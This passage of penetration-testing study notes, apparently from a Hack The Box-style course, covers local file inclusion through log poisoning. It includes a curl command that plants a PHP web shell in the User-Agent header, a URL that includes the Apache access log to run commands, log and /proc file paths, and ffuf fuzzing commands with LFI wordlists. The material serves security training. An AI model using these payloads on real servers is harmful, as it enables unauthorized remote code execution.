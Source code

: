 Once poisoned, we need to include the logs through the LFI vulnerability, and for that we need to have read-access over the logs. Nginx logs are readable by low privileged users by default (e.g. www-data), while the Apache logs are only readable by users with high privileges (e.g. root/adm groups). However, in older or misconfigured Apache servers, these logs may be readable by low-privileged users.

By default, Apache logs are located in /var/log/apache2/ on Linux and in C:\xampp\apache\logs\ on Windows, while Nginx logs are located in /var/log/nginx/ on Linux and in C:\nginx\log\ on Windows. However, the logs may be in a different location in some cases, so we may use an LFI Wordlist to fuzz for their locations, as will be discussed in the next section.

We can do this on burp or via curl...
```
MetricCode@htb[/htb]$ curl -s "http://example.com/index.php" -A '<?php system($_GET["cmd"]); ?>'
```

As the log should now contain PHP code, the LFI vulnerability should execute this code, and we should be able to gain remote code execution. We can specify a command to be executed with (?cmd=id):

```
http://example.com/index.php?language=/var/log/apache2/access.log&cmd=id

```
__Tip:__ The User-Agent header is also shown on process files under the Linux /proc/ directory. So, we can try including the /proc/self/environ or /proc/self/fd/N files (where N is a PID usually between 0-50), and we may be able to perform the same attack on these files. This may become handy in case we did not have read access over the server logs, however, these files may only be readable by privileged users as well.

Finally, there are other similar log poisoning techniques that we may utilize on various system logs, depending on which logs we have read access over. The following are some of the service logs we may be able to read:
- /var/log/sshd.log
- /var/log/mail
- /var/log/vsftpd.log

### Fuzzing for parameters
```
MetricCode@htb[/htb]$ ffuf -w /opt/useful/SecLists/Discovery/Web-Content/burp-parameter-names.txt:FUZZ -u 'http://<SERVER_IP>:<PORT>/index.php?FUZZ=value' -fs 2287
```
We can use this parameters from this list...
```
https://twitter.com/trbughunters/status/1279768631845494787
```
Once we identify an exposed parameter that isn't linked to any forms we tested, we can perform all of the LFI tests.

We can also fuzz for LFI in different encodings...
```
https://github.com/danielmiessler/SecLists/blob/master/Fuzzing/LFI/LFI-Jhaddix.txt
```
##### ffuf 
```
MetricCode@htb[/htb]$ ffuf -w /opt/useful/SecLists/Fuzzing/LFI/LFI-Jhaddix.txt:FUZZ -u 'http://<SERVER_IP>:<PORT>/index.php?language=FUZZ' -fs 2287
```

